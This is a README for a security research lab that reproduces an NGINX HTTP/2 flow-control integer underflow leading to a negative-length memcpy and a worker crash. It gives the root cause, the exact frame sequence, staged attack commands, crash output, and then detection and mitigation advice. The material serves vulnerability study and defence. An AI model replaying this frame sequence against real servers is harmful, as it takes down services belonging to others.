

<div align="center">



# nginx2root

**Reproducible lab and original PoC for CVE-2026-123007 — an integer underflow in NGINX's HTTP/2 flow control that ends in a negative-length `memcpy` and a crashed worker.**


-3776AB?logo=python&logoColor=white)


</div>

> **Legal notice.** This project is for education, defensive research and
> demonstration in a controlled environment. Run it only against the targets
> built from this repository. Pointing the PoC at infrastructure you do not own
> or lack written authorization to test is illegal in most jurisdictions and is
> not the purpose of this project.

---

## Contents

- [Overview](#overview)
- [Affected versions](#affected-versions)
- [Root cause](#root-cause)
- [Lab architecture](#lab-architecture)
- [Requirements](#requirements)
- [Quick start](#quick-start)
- [Running the attack](#running-the-attack)
- [Reading the target log](#reading-the-target-log)
- [The accelerator (full transparency)](#the-accelerator-full-transparency)
- [Why the real attack needs ~52 GiB](#why-the-real-attack-needs-52-gib)
- [Memory corruption vs. RCE](#memory-corruption-vs-rce)
- [Detection](#detection)
- [Mitigation](#mitigation)
- [Repository layout](#repository-layout)
- [References](#references)
- [License and credits](#license-and-credits)

---

## Overview

HTTP/2 keeps two flow-control windows per connection. NGINX credits the
connection window when it queues a `DATA` frame and refunds it when a stream
is cancelled before those frames reach the socket. That refund is **not
clamped** to the protocol maximum (`2^31 − 1`).

A client can therefore acknowledge bytes that were never sent and then cancel
the stream, so the same bytes are counted twice and the window exceeds its
maximum. From that point the `WINDOW_UPDATE` bounds check itself underflows,
and every subsequent increment is accepted. The window eventually wraps into a
negative `off_t`, which flows into `ngx_memcpy()` as a ~2^64 length and kills
the worker with `SIGSEGV`.

| | |
|---|---|
| **Class** | CWE-191 (Integer Underflow), CWE-787 (Out-of-bounds Write) |
| **Vector** | Network, unauthenticated, HTTP/2 over TLS or `h2c` |
| **Severity** | CVSS 4.0 base score 9.2 (Critical), as scored by F5 |
| **Impact** | Worker crash and heap corruption; NVD notes possible remote code execution when ASLR is disabled or bypassed |
| **Component** | `ngx_http_v2_module` |

The CVE was published on 2026-11-18 by F5. See the
[NVD entry](https://nvd.nist.gov/vuln/detail/CVE-2026-123007) for the
authoritative record. This lab demonstrates the crash and the memory-corruption
primitive only; see [Memory corruption vs. RCE](#memory-corruption-vs-rce).

## Affected versions

| Item | Value |
|---|---|
| Product | NGINX Open Source, NGINX Plus (with HTTP/2 enabled) |
| Affected (Open Source) | **1.9.5 through 1.31.8** |
| Fixed (Open Source) | **1.31.9** (mainline), **1.30.7** (stable) |
| Fixed (NGINX Plus) | **37.3.0.1**, **37.0.8.1** |

Related CVEs published on the same day and fixed in the same releases (not
covered by this lab). All four are use-after-free bugs (CWE-416), scored CVSS 4.0
9.2 by F5 according to NVD:

| CVE | Condition |
|---|---|
| [CVE-2026-123633](https://nvd.nist.gov/vuln/detail/CVE-2026-123633) | HTTP/2 for clients plus proxying to a backend, when the worker runs low on `worker_connections` |
| [CVE-2026-123634](https://nvd.nist.gov/vuln/detail/CVE-2026-123634) | Proxy with variables in the server name and an SSI or `mirror` subrequest resolving to the same name |
| [CVE-2026-121810](https://nvd.nist.gov/vuln/detail/CVE-2026-121810) | HTTP/3 |
| [CVE-2026-113425](https://nvd.nist.gov/vuln/detail/CVE-2026-113425) | Mail proxy |

`http2 off;` removes the vector for CVE-2026-123007 and the HTTP/2 condition of
CVE-2026-123633, but not the other three.

## Root cause

### 1. Two windows, two signedness

| Window | Lives in | Type | Scope |
|---|---|---|---|
| connection | `ngx_http_v2_connection_t` | `size_t` (unsigned) | all streams |
| stream | `ngx_http_v2_stream_t` | `ssize_t` (signed) | one stream |

### 2. Unclamped refund

On `RST_STREAM`, `ngx_http_v2_filter_cleanup()` removes queued frames that were
not blocked on the socket and adds their length back:

```c
/* src/http/v2/ngx_http_v2_filter_module.c — NGINX 1.31.8 */
if (frame->stream == stream && !frame->blocked) {
    *fn = frame->next;
    window += frame->length;          /* credit for frames that never left */
    ...
}
...
h2c->send_window += window;           /* <-- no clamp to NGX_HTTP_V2_MAX_WINDOW */
```

The client (1) lets NGINX queue `DATA`, (2) acknowledges those bytes with a
connection-level `WINDOW_UPDATE`, then (3) cancels the stream. Step 2 raises
`send_window`; step 3 refunds the same bytes again. The invariant
`send_window <= 0x7FFFFFFF` is now broken.

### 3. The bounds check underflows

```c
/* ngx_http_v2_state_window_update() */
if (window > NGX_HTTP_V2_MAX_WINDOW - h2c->send_window) {
    return ngx_http_v2_connection_error(h2c, NGX_HTTP_V2_FLOW_CTRL_ERROR);
}
h2c->send_window += window;
```

Both operands are unsigned. Once `send_window > MAX`, `MAX - send_window` wraps
to a value near `2^64`, the comparison is always false, and **any** increment is
accepted from then on.

### 4. From a negative window to `memcpy`

When the counter reaches `2^63`, the cast to `off_t` is negative:

```c
/* ngx_http_v2_send_chain() */
if (limit == 0 || limit > (off_t) h2c->send_window) {
    limit = h2c->send_window;         /* size_t -> off_t: negative */
}
...
if ((off_t) frame_size > limit) {
    frame_size = (size_t) limit;      /* wraps to ~2^64 */
}
```

`ngx_http_v2_filter_get_shadow()` then sets `chunk->last = chunk->pos + size`
without validating `size`, leaving `last < pos`. On the TLS path
`ngx_ssl_send_chain()` computes `size = last - pos` (negative) and calls
`ngx_memcpy(buf->last, in->buf->pos, size)` with a ~2^64 length.

### Attack sequence

```
 client                         nginx 1.31.8
   │ SETTINGS(INITIAL_WINDOW=0)    │
   ├──────────────────────────────>│  no DATA can be sent yet
   │ WINDOW_UPDATE(stream, 8 MiB)  │
   ├──────────────────────────────>│  queues 8 MiB of DATA
   │ WINDOW_UPDATE(conn, +8 MiB)   │
   ├──────────────────────────────>│  send_window grows
   │ RST_STREAM(1)                 │
   ├──────────────────────────────>│  cleanup refunds the stuck frames
   │                               │  send_window = MAX + ~6 MiB  ← invariant broken
   │ WINDOW_UPDATE(conn, +MAX) × N │
   ├──────────────────────────────>│  unbounded growth (check underflows)
   │ new request                   │
   ├──────────────────────────────>│  DATA with negative length
   │                               │  ngx_memcpy(~2^64) → SIGSEGV
```

## Lab architecture

```
┌──────────────────── docker network n2r ────────────────────┐
│  ┌──────────────────┐   TLS / h2   ┌─────────────────────┐ │
│  │ attacker         │─────────────>│ target              │ │
│  │ python3 (stdlib) │    :8443     │ nginx 1.31.8 + patch│ │
│  └──────────────────┘              │ /huge.bin (64 MiB)  │ │
│                                    └─────────────────────┘ │
└────────────────────────────────────────────────────────────┘
                                       ▲ 127.0.0.1:8443 (host)
```

- The target is built **from source** (NGINX 1.31.8) with
  `target/n2r-instrument.patch`.
- The attacker is plain Python 3 with **no third-party HTTP/2 library**. The
  frame layer and a minimal HPACK encoder live in `attacker/poc/h2.py`.
- Port 8443 is published on the host's `127.0.0.1` only.

## Requirements

**Docker mode (recommended)**

- Docker Engine 24+ with Compose v2
- ~1.5 GB disk and ~2 GB RAM for the build

**Native mode (no Docker, no root)**

- `gcc`, `make`, `perl`, `openssl`, `python3`, `patch`, `tar`
- `libssl-dev` and `zlib1g-dev`

The PoC itself needs nothing beyond the Python standard library.

## Quick start

### Docker

```bash
./scripts/up.sh                 # build, start both containers, wait for healthcheck
curl -k -sI https://127.0.0.1:8443/ | head -3
./scripts/down.sh               # tear down
```

### Native (no Docker)

```bash
# terminal 1 — builds on first run, then streams the target log
./scripts/native-up.sh

# terminal 2
./scripts/native-attack.sh
```

Useful environment variables for `native-up.sh`: `N2R_PORT` (TLS port),
`N2R_SINGLE=1` (`master_process off`, so the crash really takes the target
down) and `N2R_ASAN=1` (AddressSanitizer build).

### Restarting the target after a crash

With `N2R_SINGLE=1` (the Compose default) the worker *is* PID 1, so the
`SIGSEGV` exits the container with code 139:

```bash
./scripts/restart-target.sh
```

With a regular master process, the master simply respawns the worker and the
container stays up. The crash is still visible in the log
(`worker process N exited on signal 11`).

## Running the attack

```bash
./scripts/attack.sh --probe            # fingerprint only (banner + ALPN)
./scripts/attack.sh --no-accelerate    # stages 1–6: break the invariant for real
./scripts/attack.sh --accelerate       # full chain, ends in SIGSEGV
```

Native equivalents: `./scripts/native-attack.sh [--probe|--no-accelerate]`.

| Stage | Name | What happens |
|---|---|---|
| 01 | RECON | Banner and ALPN (`h2`) fingerprint |
| 02 | SETUP | `INITIAL_WINDOW_SIZE=0`, connection window raised to the maximum |
| 03 | TRIGGER | `GET /huge.bin`; grant 8 MiB of stream credit so NGINX queues `DATA` |
| 04 | ACK | Acknowledge the bytes on the connection window |
| 05 | CANCEL | `RST_STREAM`; the unclamped refund pushes `send_window` past `0x7FFFFFFF` |
| 06 | AMPLIFY | `WINDOW_UPDATE` values are accepted although they must raise `FLOW_CTRL_ERROR` |
| 07 | CONSEQUENCE | Lab accelerator jumps to the final counter state |
| 08 | CRASH | Next write uses a negative length; worker dies with `SIGSEGV` |

Each stage prints a green `✓` when it completes as expected. A red `✗` is
reserved for real failures (connection refused, no HTTP/2, unexpected ALPN).
Output of a full run ending in the crash:

```
[08] CRASH        next write uses a negative size
     ✓ connection dropped after 1.72 MiB of DATA
     ✓ nginx worker died: ngx_memcpy with a huge size_t length → SIGSEGV
     ✓ target did NOT respond again: it is down (attack goal reached)
     ✓ full chain: invariant broken, window at 2^64, worker dead
```

## Reading the target log

The instrumentation patch only adds log lines (plus the accelerator below):

```text
[n2r] INVARIANT VIOLATED: connection send_window=2154070015 > MAX=2147483647
      after refunding 6586368 unsent bytes of a stream already acknowledged
[n2r] FLOW-CONTROL CHECK BYPASSED: increment=1 accepted,
      connection send_window=2154070016 (MAX+6586369)
[n2r] ACCELERATOR: lab-only shortcut, jumping to the accumulated end state
[n2r] NEGATIVE WINDOW: send_window=18446744072635809792 is read as off_t -1073741824
worker process 64131 exited on signal 11
```

`2154070015 − 2147483647 = 6586368` bytes (~6.28 MiB) were refunded twice. The
exact value depends on socket buffering; what matters is that it is positive.

## The accelerator (full transparency)

The PoC does **not** pretend 52 GiB were sent. It uses a clearly labelled hook
compiled only into the lab image:

```c
/* excerpt from target/n2r-instrument.patch */
if (h2c->send_window > (size_t) NGX_HTTP_V2_MAX_WINDOW) {
    if (window == N2R_ACCEL_MAGIC) {            /* 0x4E325221 = "N2R!" */
        h2c->send_window = (size_t) (off_t) -0x40000000;
    }
}
```

1. The trigger is reachable **only after** the invariant has been broken. If
   stage 5 does not work, stage 7 never happens.
2. `0x4E325221` is a valid 31-bit `WINDOW_UPDATE` increment, sent like any
   other frame.
3. Without `--accelerate` the binary behaves like stock NGINX 1.31.8, apart
   from the log lines.

To build a target **without** the accelerator, remove the hunk that contains
`N2R_ACCEL_MAGIC` from `target/n2r-instrument.patch` and rebuild
(`docker compose build --no-cache target`). The `[n2r]` log lines remain.

## Why the real attack needs ~52 GiB

For `(off_t) send_window` to turn negative the counter must reach `2^63`:

```
2^63            ≈ 9.22 × 10^18
max per frame   = 2^31 − 1 ≈ 2.15 × 10^9
frames needed   ≈ 2^32 ≈ 4.29 × 10^9
bytes per frame = 9 (header) + 4 (payload) = 13
traffic         ≈ 55.8 × 10^9 bytes ≈ 52 GiB
```

NGINX also has an anti-abuse check
(`total_bytes / 8 > payload_bytes + 1048576`), so the client must send enough
request body to "pay for" the frame volume. Public analyses report on the order
of ~119 GiB of total traffic for a full RCE proof of concept. That is why a
short demo needs the accelerator, and why it is announced on screen.

## Memory corruption vs. RCE

This lab proves **memory corruption**, not code execution. The full discussion
is in [`docs/RCE.md`](docs/RCE.md).

**Demonstrated** with AddressSanitizer (`./scripts/rce-evidence.sh`):

```text
ERROR: AddressSanitizer: negative-size-param: (size=-1073741824)
    #1 ngx_ssl_send_chain src/event/ngx_event_openssl.c:3150
    #2 ngx_http_v2_send_output_queue src/http/v2/ngx_http_v2.c:557
```

`memcpy` receives the negative `send_window` as its length (~2^64), reading
from the response and writing into the TLS buffer: a heap overflow whose
length and content are attacker-influenced.

**Not demonstrated:** turning it into code execution. Concrete obstacles:

1. the `memcpy` cannot be interrupted, so the worker dies inside it;
2. the length is always ~2^64; there is no "small overflow";
3. content past the first 1 MiB comes from adjacent heap, requiring grooming;
4. the overwritten target must be consumed by another process, and NGINX has no
   `SIGSEGV` handler.

The accelerator replaces only the accumulation of 52 GiB of `WINDOW_UPDATE`
frames, never the `memcpy` itself.

## Detection

The attack uses valid frames, so it is easy to miss. Useful signals:

1. **Traffic signature (best signal).** Many 13-byte `WINDOW_UPDATE` frames with
   increment `0x7FFFFFFF` on one connection, with comparatively little request
   body. Count frames per type with `tcpdump`/eBPF.
2. **Worker crashes.** `worker process N exited on signal 11` in
   `ngx_ssl_send_chain` / `ngx_memcpy`, especially with core dumps enabled.
3. **Per-connection volume.** Long-lived h2 connections receiving tens of GiB
   with almost no legitimate request body.
4. **Edge rule.** On your own TLS terminator, reject connection-level
   `WINDOW_UPDATE` whose accumulated sum exceeds `2^31 − 1`.

## Mitigation

**Fix (recommended).** Upgrade to NGINX **1.31.9** or **1.30.7** (or later), or
NGINX Plus **37.3.0.1** / **37.0.8.1**, and perform a full **restart**, not a
reload:

```bash
sudo apt update && sudo apt install --only-upgrade nginx
sudo systemctl restart nginx      # reload keeps running the old binary
```

**If you cannot upgrade yet**

```nginx
server {
    listen 443 ssl;
    http2 off;                    # nginx >= 1.25.1
    ...
}
```

Alternatives: build with `--without-http_v2_module`, or terminate HTTP/2 on a
patched edge (CDN / load balancer) and speak HTTP/1.1 to the origin. Treat these
as stop-gaps; they do not address the other CVEs from the same release.

**What does not help:** `limit_conn` / `limit_req` (single connection, tiny
frames), larger `output_buffers`, generic L7 WAFs, `client_max_body_size`, and
reloading after a package upgrade.

**Incident checklist:** confirm `nginx -v`; upgrade and restart; search for
`exited on signal 11` and recent core dumps; review pcaps for `WINDOW_UPDATE`
floods; apply `http2 off;` immediately if you cannot upgrade; rotate secrets if
a core dump contained process memory (TLS keys, tokens).

## Repository layout

```
nginx2root-lab/
├── docker-compose.yml
├── target/
│   ├── Dockerfile              # builds nginx 1.31.8 + patch
│   ├── nginx.conf              # TLS :8443, http2 on, lab tuning
│   ├── n2r-instrument.patch    # log lines + accelerator hook
│   ├── entrypoint.sh           # self-signed cert + huge.bin
│   └── src/nginx-1.31.8.tar.gz # upstream source
├── attacker/
│   └── poc/
│       ├── h2.py               # HTTP/2 frames + minimal HPACK, from scratch
│       ├── attack.py           # the 8 stages
│       ├── banner.py           # colored ASCII banner
│       ├── ui.py               # output and colors
│       └── __main__.py         # CLI (probe / run)
├── docs/
│   ├── RCE.md                  # corruption primitive vs. RCE
│   └── img/cover.png
├── scripts/                    # up / down / attack / demo / verify / native-* ...
└── tools/banner.sh
```

`.n2r/` and `.n2r-asan/` (created by native mode) hold local builds, TLS
material and the 64 MiB `huge.bin`; both are git-ignored.

## References

- RFC 9113 — HTTP/2 (sections 5.2 and 6.9, flow control)
- RFC 7541 — HPACK
- [NVD — CVE-2026-123007](https://nvd.nist.gov/vuln/detail/CVE-2026-123007)
- [F5 advisory K000163926](https://my.f5.com/manage/s/article/K000163926)
- [Fixing commit in nginx/nginx](https://github.com/nginx/nginx/commit/b89c4100bf6762a45e4a6463eaf4b70368277c94)
- [nginx.org CHANGES](https://nginx.org/en/CHANGES)
- CWE-191 (Integer Underflow), CWE-787 (Out-of-bounds Write)

## License and credits

Lab, PoC and instrumentation written from scratch by
**[eduxcode](https://github.com/eduxcode)** for educational purposes. The code in
this repository is released under the [MIT License](LICENSE). NGINX is
distributed by its authors under the BSD-2-Clause license.
